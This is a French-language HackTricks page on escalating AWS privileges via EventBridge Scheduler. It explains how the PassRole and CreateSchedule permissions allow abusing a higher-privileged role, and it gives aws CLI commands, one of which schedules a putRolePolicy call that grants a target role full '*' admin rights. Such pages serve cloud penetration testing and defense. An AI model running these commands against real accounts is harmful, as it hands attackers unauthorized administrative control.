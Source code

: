 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler peut être utilisé pour l'escalade de privilèges en planifiant des appels à divers services AWS. En tirant parti de sa capacité à invoquer des services sur une base planifiée, les utilisateurs disposant de permissions suffisantes peuvent escalader leurs privilèges. Voici quelques-unes des actions clés que l'EventBridge Scheduler peut déclencher en utilisant des cibles modélisées :

- Lambda : lambda:InvokeFunction - Invoquer des fonctions Lambda selon un calendrier.
- CodeBuild : codebuild:StartBuild - Démarrer des projets AWS CodeBuild.
- CodePipeline : codepipeline:StartPipelineExecution - Déclencher des exécutions AWS CodePipeline.
- ECS : ecs:RunTask - Exécuter des tâches ECS.
- EventBridge : events:PutEvents - Mettre des événements dans EventBridge.
- Inspector : inspector:StartAssessmentRun - Démarrer des évaluations Amazon Inspector.
- Kinesis : kinesis:PutRecord - Mettre des enregistrements dans des flux Kinesis.
- Firehose : firehose:PutRecord - Mettre des enregistrements dans des flux de livraison Firehose.
- SageMaker : sagemaker:StartPipelineExecution - Démarrer des exécutions de pipeline SageMaker.
- SNS : sns:Publish - Publier des messages sur des sujets SNS.
- SQS : sqs:SendMessage - Envoyer des messages aux files d'attente SQS.
- Step Functions : states:StartExecution - Démarrer des exécutions des AWS Step Functions.

Ce ne sont là que quelques-unes des actions modélisées que l'EventBridge Scheduler peut effectuer. Cependant, en utilisant des cibles universelles, de nombreuses autres actions à travers les services AWS peuvent être invoquées. Les cibles universelles permettent des opérations API plus étendues au-delà de la liste modélisée.

Plus d'infos sur l'EventBridge Scheduler dans :

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `sts:AssumeRole`, `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Les utilisateurs disposant des permissions `sts:AssumeRole`, `iam:PassRole`, et `scheduler:CreateSchedule ou scheduler:UpdateSchedule` peuvent escalader leurs privilèges en tirant parti de l'EventBridge Scheduler pour invoquer des services en utilisant un rôle avec des privilèges supérieurs.

Avec ces permissions, un attaquant peut assumer un rôle avec des privilèges élevés et passer ce rôle à l'EventBridge Scheduler lors de la création ou de la mise à jour d'un calendrier. Le calendrier peut être configuré pour effectuer n'importe laquelle des actions listées précédemment, telles qu'invoquer des fonctions Lambda, démarrer des tâches ECS, déclencher des exécutions de CodePipeline, ou toute opération des 270 services AWS pris en charge par l'EventBridge Scheduler. En planifiant ces actions, un attaquant pourrait abuser de privilèges plus élevés pour effectuer des opérations non autorisées à travers les services AWS.
\\

Par exemple, ils pourraient configurer le calendrier pour invoquer une fonction Lambda qui est une action modélisée :
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
En plus des actions de service modélisées, vous pouvez utiliser des cibles universelles dans EventBridge Scheduler pour invoquer un large éventail d'opérations API pour de nombreux services AWS. Les cibles universelles offrent la flexibilité d'invoquer presque n'importe quelle API. Un exemple peut être l'utilisation de cibles universelles ajoutant "AdminAccessPolicy", en utilisant un rôle qui a la politique "putRolePolicy" :
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## Références

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
